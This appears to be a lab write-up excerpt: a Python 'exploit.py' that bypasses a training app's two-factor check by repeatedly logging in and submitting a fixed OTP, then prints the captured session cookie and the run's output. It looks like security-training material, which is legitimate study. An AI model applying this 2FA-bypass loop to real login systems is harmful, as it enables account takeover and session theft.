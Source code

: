 ```sh

def submit_otp(sess, otp):
    otp_data = {'code-1': otp[0], 'code-2': otp[1], 'code-3': otp[2], 'code-4': otp[3]}
    resp = sess.post(otp_url, data=otp_data, headers=headers, allow_redirects=False)
    print(f"DEBUG: OTP submission response status code: {resp.status_code}")
    return resp

def is_login_page(resp):
    return "Sign in to your account" in resp.text or "Login" in resp.text

def try_until_success():
    otp_str = '1337'
    while True:
        sess = requests.Session()
        if not is_login_successful(login(sess)):
            print("Failed to log in."); continue
        print(f"Trying OTP: {otp_str}")
        resp = submit_otp(sess, otp_str)
        if is_login_page(resp):
            print("Unsuccessful OTP attempt, redirected to login page."); continue
        if resp.status_code == 302:
            loc = resp.headers.get('Location', '')
            print(f"Session cookies: {sess.cookies.get_dict()}")
            if loc == '/labs/third/dashboard':
                print(f"Successfully bypassed 2FA with OTP: {otp_str}")
                return sess.cookies.get_dict()
            elif loc == '/labs/third/':
                print("Failed OTP attempt. Redirected to login.")
            else:
                print(f"Unexpected redirect location: {loc}")

try_until_success()

```


```sh
$ python3 exploit.py
Logged in successfully.
Trying OTP: 1337
DEBUG: OTP submission response status code: 302
Unsuccessful OTP attempt, redirected to login page.
...
Session cookies: {'PHPSESSID': '57burqsvce3odaif2oqtptbl13'}
```


